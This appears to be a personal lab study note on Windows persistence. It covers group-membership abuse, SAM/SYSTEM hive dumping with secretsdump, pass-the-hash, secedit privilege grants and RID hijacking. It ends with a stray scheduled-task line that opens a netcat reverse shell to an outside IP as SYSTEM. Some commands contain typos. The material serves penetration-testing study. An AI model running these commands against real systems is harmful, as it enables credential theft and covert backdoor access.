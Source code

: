 #cybersecurity #penetration-test #windows 

To make it harder for the blue team to detect us, we can manipulate unprivileged users, wich usually won't be monitored as much as administrators

We assume we have already gained administrative access somehow and are trying to establish persistence from there

### Assign Group Memberships

We will assume we have dumped the password hashes of the victim machine and successfully cracked the passwords for the unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the **Administrators** group.

```cmd
net localgroup administrators thmuser0 /add
```

If this looks too suspicious, you can use the Backup Operators group. Users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured [[DACL]]. This would allow us to copy the content of the SAM and SYSTEM registry hives, which we can then use to recover the password hashes for all the users, enabling us to escalate to any administrative account trivially.

```
net localgroup "Backup Operators" thmuser1 /add
```

Since this is an unprivileged account , it cannot RDP or WinRM back to the machine unless we add it to **Remote Desktop Users** or **Remote Management Users**

```
net localgroup "Remote Management Users" thmuser1 /add
```

But if we try to connect with WinRM or RDP, we can see that we are not able to access all files as expected
Quick check

```bash
evil-winrm -i 10.10.238.37 -u thmuser1 -p Password321
```

This is due to UAC (User Account Control) and it's feature **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely

To disable, we have to modify a registry key

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Let's enter now in the server

```bash
evil-winrm -i 10.10.238.37 -u thmuser1 -p Password321
```

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:
```
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

We those files we can dump the password hashes for all users using `secretsdump.py`

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

And finally perform PASS-THE-HASH to connect to the victim machine with privileges

```
user@AttackBox$ evil-winrm -i 10.10.238.37 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```




### Special Privileges and Security Descriptors
A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found here for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

- **SeBackupPrivilege**: The user can read any file in the system, ignoring any DACL in place.
- **SeRestorePrivilege**: The user can write any file in the system, ignoring any DACL in place.


We can assign such privileges to any user, independent of their group memberships. To do so, we can use the **secedit** command. First, we will export the current configuration to a temporary file:

```
secedit /export /cfg config.inf
```

We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:

![[Pasted image 20240628120940.png]]

We finally convert the .inf file into a .sdb file which is then used to load the configuration back into the system:dir

```
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

You should now have a user with equivalent privileges to any Backup Operator. The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a security descriptor as an ACL but applied to other system facilities.

```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

This will open a window where you can add thmuser2 and assign it full privileges to connect to WinRM:

![[Pasted image 20240628121150.png]]


### RID Hijacking
We can change some registry values to make the operating system think we are Administrator

When user is create, an identifier called Relative ID (RID) is assigned to them. It's simply a numeric identifier representing the user across the system.

When an user logs on, the LSASS process gets its RID form the SAM registry hive and creates an access token associated with that RID, If we can tamper with the registry value, we can make windows assign an Administrator access token RID=500 

To find the assigned RID
```cmd
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

The RID is the last bit of the SID
SID it's and identifier that allows the operating system to identify a user across a domain

Now we assign the RID=500 to thmuser3. To do so, we need to access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it.
To run regedit as SYSTEM, we will user psexec

```poweshell
PsExec64.exe -i -s regedi
```

Now we go to `HKLM\SAM\SAM\Domains\Account\Users`
Here there is a key for each user in the machine
Since we want to modify thmuser3 we need to find a key with RID in hex 1010 = 0x3F2
There will be a value F wich holds the user's effective RID at position 0x30
![[Pasted image 20240701113019.png]]


The RID is stored in little-endian notation, so its bytes appear reversed.

schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.9.4.183 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.